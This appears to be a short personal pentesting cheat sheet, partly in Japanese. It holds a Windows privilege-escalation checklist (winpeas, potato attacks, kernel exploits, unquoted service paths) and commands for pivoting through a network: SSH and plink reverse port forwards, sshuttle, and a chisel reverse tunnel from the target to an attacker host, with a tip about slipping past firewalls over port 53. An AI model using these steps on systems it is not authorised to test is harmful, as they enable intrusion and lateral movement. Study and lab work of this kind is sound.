 ### Windows

- [ ] whoami /priv
- [ ] icacls /Users/Administrator
- [ ] dir /Users
- [ ] windows-exsploit-suggester
- [ ] winpeas
- [ ] netstat
- [ ] high priv running service
- [ ] unquated service path
- [ ] potato
- [ ] kernel exploit

## Port Forwarding

### Local Port Forwarding

```
ssh username@<remote-machine> -L localport:target-ip:target-port
ssh username@<Kali's IP> -L 5000:<Kali's IP>:5000
```

### Remort Port Forwarding

内部に開かれているポートを攻撃者のマシンへ転送する。

```
ssh -R 9090:localhost:8080 <Remote Host>
```

windows の場合は plink.exe を使う

```
plink.exe -l root -pw mysecretpassword 111.111.111.111 -R 3307:127.0.0.1:3306
```

### SShutle

(おそらく利用しない)
任意のホストを踏み台にして、サブネット内のマシンの公開ポートへアクセスできる。が、nmap の実行は厳しい

```
sshuttle -r root@192.168.1.101 192.168.1.0/24
```

### chisel

ファイアウォールも 53 番の DNS あたり使えばすり抜けられることが多い

```
#On Kali
./chisel server -p 8000 -reverse

#On Target
./chisel client <YOUR IP>:<YOUR CHISEL SERVER PORT> L/R:[YOUR LOCAL IP]:<TUNNEL LISTENING PORT>:<TUNNEL TARGET>:<TUNNEL PORT>

#e.g.
./chisel client 10.1.1.1:8000 R:127.0.0.1:8001:172.19.0.3:80
```
